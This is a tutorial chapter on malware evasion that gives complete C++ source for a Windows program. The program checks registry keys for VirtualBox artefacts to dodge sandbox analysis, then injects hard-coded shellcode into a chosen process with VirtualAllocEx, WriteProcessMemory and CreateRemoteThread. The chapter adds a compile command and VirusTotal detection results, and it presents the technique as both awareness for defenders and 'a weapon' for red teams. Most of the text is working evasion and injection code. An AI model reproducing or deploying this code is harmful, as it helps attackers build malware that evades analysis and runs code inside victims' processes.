




## 40. AV/VM engines evasion techniques - part 6. Simple C++ example.

{width="80%"}    

This section is a result of self-researching another VM evasion trick. An example how to bypass Oracle VirtualBox in simple C++ malware via Windows Registry.   

### registry keys

Registry keys and it's values may be queries via WinAPI calls. In this post I consider how to detect VM environment via `kernel32.dll` functions like `RegOpenKeyExA` and `RegQueryValueExA`.    

The function `RegOpenKeyExA` has the following syntax:    

```cpp
LSTATUS RegOpenKeyExA(
  [in]           HKEY   hKey,
  [in, optional] LPCSTR lpSubKey,
  [in]           DWORD  ulOptions,
  [in]           REGSAM samDesired,
  [out]          PHKEY  phkResult
);
```

which opens the specified registry key.    

Another function `RegQueryValueExA` retrieves the type and data for the specified value name associated with an open registry key:    

```cpp
LSTATUS RegQueryValueExA(
  [in]                HKEY    hKey,
  [in, optional]      LPCSTR  lpValueName,
                      LPDWORD lpReserved,
  [out, optional]     LPDWORD lpType,
  [out, optional]     LPBYTE  lpData,
  [in, out, optional] LPDWORD lpcbData
);
```

### 1. check if specified registry paths exist

For checking this I can use the following logic:   

```cpp
int reg_key_ex(HKEY hKeyRoot, char* lpSubKey) {
  HKEY hKey = nullptr;
  LONG ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, 
  KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegCloseKey(hKey);
    return TRUE;
  }
  return FALSE;
}
```

So as you can see I just check if registry key path exists. Return `TRUE` if exists, return `FALSE` otherwise.    

### 2. check if specified registry key contain value

For example something like this logic:    

```cpp
int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, char* 
regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, 
  &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}
```

This function logic is also quite simple. We check value of the registry key via `RegQueryValueExA` in which the result of function `RegOpenKeyExA` is the first parameter.    

I will only consider `Oracle VirtualBox`. For another VMs/sandboxes the tricks is the same.    

### practical example   

So let's go to consider practical example. Let's take a look at the complete source code:    

```cpp
/*
* hack.cpp
* classic payload injection with 
VM virtualbox evasion tricks
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2022/04/09/malware-av-evasion-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int reg_key_ex(HKEY hKeyRoot, char* lpSubKey) {
  HKEY hKey = nullptr;
  LONG ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, 
  KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegCloseKey(hKey);
    return TRUE;
  }
  return FALSE;
}

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, 
  &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  if (reg_key_ex(HKEY_LOCAL_MACHINE, 
  "HARDWARE\\ACPI\\FADT\\VBOX__")) {
    printf("VirtualBox VM reg path value detected :(\n");
    return -2;
  }

  if (reg_key_compare(HKEY_LOCAL_MACHINE, 
  "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
  "SystemProductName", "VirtualBox")) {
    printf("VirtualBox VM reg key value detected :(\n");
    return -2;
  }

  if (reg_key_compare(HKEY_LOCAL_MACHINE, 
  "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
  "BiosVersion", "VirtualBox")) {
    printf("VirtualBox VM BIOS version detected :(\n");
    return -2;
  }

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

As you can see it's just [classic payload injection](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html) with some VM VirtualBox detection tricks via Windows Registry.    

Check path: `HKLM\HARDWARE\ACPI\FADT\VBOX_`:    

{width="80%"}    

Enumerating reg key `SystemProductName` from     
`HKLM\SYSTEM\CurrentControlSet\Control\SystemInformation`    
and compare with `VirtualBox` string:    

{width="80%"}    

and BIOS version key `BiosVersion` from same path:     

{width="80%"}    

Note that in all cases key names are case-insensitive.    

### demo

Let's go to compile this malware `hack.cpp`:    

```bash
i686-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

and run (`Windows 10 x64` in my case):    

{width="80%"}    

Let's go to upload to VirusTotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/e4d265297f08a5769d2f61aafb3040779c5f31f699e66ad259e66d62f1bacb03/detection](https://www.virustotal.com/gui/file/e4d265297f08a5769d2f61aafb3040779c5f31f699e66ad259e66d62f1bacb03/detection)    

**So 8 of 68 AV engines detect our file as malicious**    

If we delve into the investigate of the real-life malware and scenarios, we, of course, will find many other specified registry paths and keys.    

I hope this section spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[evasion techniques by check point software technologies ltd](https://evasions.checkpoint.com/techniques/registry.html)    
[classic payload injection](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html)    
[AV engines evasion part 1](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html)    
[AV engines evasion part 2](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html)    
[AV engines evasion part 3](https://cocomelonc.github.io/tutorial/2021/12/25/simple-malware-av-evasion-3.html)    
[AV engines evasion part 4](https://cocomelonc.github.io/tutorial/2021/03/18/simple-malware-av-evasion-4.html)    
[AV engines evasion part 5](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html)    
[source code in github](https://github.com/cocomelonc/2022-04-09-malware-av-evasion-6)    
